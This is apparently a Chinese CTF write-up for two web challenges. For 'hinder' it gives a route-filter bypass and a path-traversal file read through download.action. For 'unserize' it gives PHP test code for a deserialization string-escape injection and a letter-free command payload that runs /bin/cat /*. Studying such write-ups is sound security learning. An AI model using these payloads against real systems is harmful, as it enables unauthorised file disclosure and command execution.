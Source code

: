 自己参赛的，但是牢底坐穿。

## hinder
就是说当时一点想法也没有，上来直接permission denied...
没权限可能是由于路由被拦截，因此只要构造不符合条件的路由即可：
```
//hinder/
```
如果存在目录穿越则还可以
```
/a/../hinder/
```
然后在返回网页的注释处发现hint`/download.action?filename=hint`，任意文件读取。

这里直接拼在hinder/后面，`/a/../hinder/download.action?filename=../../../../../../../proc/1/cmdline/`，发现`/bin/sh/run.sh`。
但是读`/a/../hinder/download.action?filename=../../../../../../../bin/sh/run.sh`读不出，
直接读``/a/../hinder/download.action?filename=../../../../../../../run.sh`发现flag路径，读取即可。

## unserize
当时盲猜一手源码www.zip，真下载到了。当时感觉函数aaaa<->bbbbbb感觉是php反序列化字符串逃逸，但是不知道怎么利用。当时的想法是，利用a和b让push_it的session反序列化变成pull_it。
但是还是too naive，怎么可能，totally wrong。

[先知](https://xz.aliyun.com/t/9213)

反序列化构造payload时一切属性都可以设置为public。利用function中两个过滤函数中任意一个都行，root参数传入一堆a/b，通过过滤器后造成长度变短/变长。pwd传入构造好的反序列化字符串。

做个测试：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$a = new push_it();
$a->root = "bbbbbbbbbb";
$a->pwd = "wwwwwwwwww";
echo(serialize($a));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$a->pwd = new pull_it();
$a->pwd->x = "xxxxxxxx";
echo(serialize($a));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


?>
```

用a过滤器，每6个bbbbbb会吞掉2个字符变成4个aaaa，要把后面的`";s:3:"pwd";s:xx:`也吞掉，总共吞17个字符，由于不是偶数，因此再多吞冒号后的一个引号，总共吞18个字符，
需要9*6=54个b，pwd用于构造pull_it的payload，具体如下：
```
function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }


?>
```
另外测试了一下星盟安全给的wp：`root=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&pwd=";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}`，吞掉之后的序列化字符串会变得很奇怪，本地测试是失败的。

接下来由于进入了正则匹配，过滤a-zA-Z0-9，因此需要无字符命令执行，把`ls`换成:
```
?><?=`/???/??? /*`;?>
```
我不懂为什么最开始要闭合php的?>标签。之后是短标签，反引号执行，通配符匹配使得最终执行的命令为`/bin/cat /*`

所有测试用代码：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbb";
$aa->pwd = "wwwwwwwwww";
echo(serialize($aa));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$aa->pwd = new pull_it();
$aa->pwd->x = "xxxxxxxx";
echo(serialize($aa));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


// other wp:
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}';
echo(a(serialize($aa)));
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}';
var_dump(unserialize($s));
// bool(false)



$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }

?>
```
